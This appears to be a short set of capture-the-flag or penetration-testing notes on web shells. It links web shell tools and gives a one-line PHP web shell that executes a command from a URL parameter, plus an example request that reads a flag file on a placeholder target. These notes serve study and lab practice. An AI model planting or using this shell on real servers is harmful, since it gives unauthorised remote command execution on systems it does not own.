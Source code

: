 ```yaml
---
tags:
  - Exploitation
---
```



## Tools

1. [[Laudanum, One Webshell to Rule Them All]]
2. [GitHub - epinna/weevely3: Weaponized web shell](https://github.com/epinna/weevely3)
3. [GitHub - WhiteWinterWolf/wwwolf-php-webshell: WhiteWinterWolf's PHP web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)


## Examples 

 ```
<?php echo shell_exec($_GET["c"]);?>
```
 
```shell
http://STMIP/1af271ec0935f7ccbd31dc24666f7f33.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt
```
